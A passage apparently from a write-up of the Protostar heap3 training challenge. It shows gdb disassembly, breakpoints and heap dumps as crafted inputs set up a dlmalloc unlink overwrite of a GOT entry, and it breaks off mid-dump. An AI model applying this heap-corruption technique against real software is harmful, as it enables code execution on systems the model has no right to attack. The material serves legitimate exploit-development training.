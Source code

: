 0x08048911 <main+136>:	call   0x8049824 <free>
0x08048916 <main+141>:	mov    eax,DWORD PTR [esp+0x18]
0x0804891a <main+145>:	mov    DWORD PTR [esp],eax
0x0804891d <main+148>:	call   0x8049824 <free>
0x08048922 <main+153>:	mov    eax,DWORD PTR [esp+0x14]
0x08048926 <main+157>:	mov    DWORD PTR [esp],eax
0x08048929 <main+160>:	call   0x8049824 <free>
0x0804892e <main+165>:	mov    DWORD PTR [esp],0x804ac27
0x08048935 <main+172>:	call   0x8048790 <puts@plt>
0x0804893a <main+177>:	leave  
0x0804893b <main+178>:	ret    
End of assembler dump.
(gdb) b *0x080488c2
Breakpoint 1 at 0x80488c2: file heap3/heap3.c, line 20.
(gdb) b *0x0804890a
Breakpoint 2 at 0x804890a: file heap3/heap3.c, line 24.
(gdb) b *0x08048916
Breakpoint 3 at 0x8048916: file heap3/heap3.c, line 25.
(gdb) define hook-stop
Type commands for definition of "hook-stop".
End with a line saying just "end".
>x/40x 0x804c000
>x/x 0x804b128
{% endhighlight %}

{% highlight shell %}
(gdb) r $(cat /tmp/A) $(cat /tmp/B) $(cat /tmp/C)
Starting program: /opt/protostar/bin/heap3 $(cat /tmp/A) $(cat /tmp/B) $(cat /tmp/C)
0x804c000:	0x00000000	0x00000029	0x00000000	0x00000000
0x804c010:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c020:	0x00000000	0x00000000	0x00000000	0x00000029
0x804c030:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c040:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c050:	0x00000000	0x00000029	0x00000000	0x00000000
0x804c060:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c070:	0x00000000	0x00000000	0x00000000	0x00000f89
0x804c080:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c090:	0x00000000	0x00000000	0x00000000	0x00000000
0x804b128 <_GLOBAL_OFFSET_TABLE_+64>:	0x08048796

Breakpoint 1, main (argc=4, argv=0xbffff844) at heap3/heap3.c:20
20	in heap3/heap3.c
(gdb) c
Continuing.
0x804c000:	0x00000000	0x00000029	0x41414141	0x00000000
0x804c010:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c020:	0x00000000	0x00000000	0x00000000	0x00000029
0x804c030:	0xffffffff	0xffffffff	0xffffffff	0xffffffff
0x804c040:	0x04886468	0xffffc308	0xffffffff	0xffffffff
0x804c050:	0xfffffffc	0xfffffffc	0xffffffff	0x0804b11c
0x804c060:	0x0804c040	0x00000000	0x00000000	0x00000000
0x804c070:	0x00000000	0x00000000	0x00000000	0x00000f89
0x804c080:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c090:	0x00000000	0x00000000	0x00000000	0x00000000
0x804b128 <_GLOBAL_OFFSET_TABLE_+64>:	0x08048796

Breakpoint 2, main (argc=4, argv=0xbffff844) at heap3/heap3.c:24
24	in heap3/heap3.c
(gdb) c
Continuing.
0x804c000:	0x00000000	0x00000029	0x41414141	0x00000000
0x804c010:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c020:	0x00000000	0x00000000	0x00000000	0x00000029
0x804c030:	0xffffffff	0xffffffff	0xffffffff	0xffffffff
0x804c040:	0x04886468	0xffffc308	0x0804b11c	0xfffffff8